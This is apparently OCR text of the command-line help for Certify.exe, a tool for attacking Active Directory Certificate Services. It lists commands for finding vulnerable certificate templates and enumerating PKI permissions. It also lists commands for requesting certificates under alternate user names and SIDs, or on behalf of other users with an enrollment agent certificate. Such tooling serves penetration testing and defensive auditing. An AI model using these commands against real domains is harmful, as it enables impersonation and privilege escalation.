         Certify.exe find /vulnerable [/ca:SERVER\ca-name | /domain:domain.local | /path:CN=Configuration,DC=domain,DC=local] [/quiet]

      Find vulnerable/abusable certificate templates using all groups the current user context is a part of:

        Certify.exe find /vulnerable /currentuser [/ca:SERVER\ca-name | /domain:domain.local | /path:CN=Configuration,DC=domain,DC=local] [/quiet]

      Find enabled certificate templates where ENROLLEE_SUPPLIES_SUBJECT is enabled:

        Certify.exe find /enrolleeSuppliesSubject [/ca:SERVER\ca-name| /domain:domain.local | /path:CN=Configuration,DC=domain,DC=local] [/quiet]

      Find enabled certificate templates capable of client authentication:

        Certify.exe find /clientauth [/ca:SERVER\ca-name | /domain:domain.local | /path:CN=Configuration,DC=domain,DC=local] [/quiet]

      Find all enabled certificate templates, display all of their permissions, and don't display the banner message:

        Certify.exe find /showAllPermissions /quiet [/ca:COMPUTER\CA_NAME | /domain:domain.local | /path:CN=Configuration,DC=domain,DC=local]

      Find all enabled certificate templates and output to a json file:

        Certify.exe find /json /outfile:C:\Temp\out.json [/ca:COMPUTER\CA_NAME | /domain:domain.local | /path:CN=Configuration,DC=domain,DC=local]


      Enumerate access control information for PKI objects:

        Certify.exe pkiobjects [/domain:domain.local] [/showAdmins] [/quiet]


      Request a new certificate using the current user context:

        Certify.exe request /ca:SERVER\ca-name [/subject:X] [/template:Y] [/install]

      Request a new certificate using the current machine context:

        Certify.exe request /ca:SERVER\ca-name /machine [/subject:X] [/template:Y] [/install]

      Request a new certificate using the current user context but for an alternate name (if supported):

        Certify.exe request /ca:SERVER\ca-name /template:Y /altname:USER

      Request a new certificate using the current user context but for an alternate name and SID (if supported):

        Certify.exe request /ca:SERVER\ca-name /template:Y /altname:USER /sid:S-1-5-21-2697957641-2271029196-387917394-2136

      Request a new certificate using the current user context but for an alternate name and URL (if supported):

        Certify.exe request /ca:SERVER\ca-name /template:Y /altname:USER /url:tag:microsoft.com,2022-09-14:sid:S-1-5-21-2697957641-2271029196-387917394-2136

      Request a new certificate on behalf of another user, using an enrollment agent certificate:

        Certify.exe request /ca:SERVER\ca-name /template:Y /onbehalfof:DOMAIN\USER /enrollcert:C:\Temp\enroll.pfx [/enrollcertpw:CERT_PASSWORD]
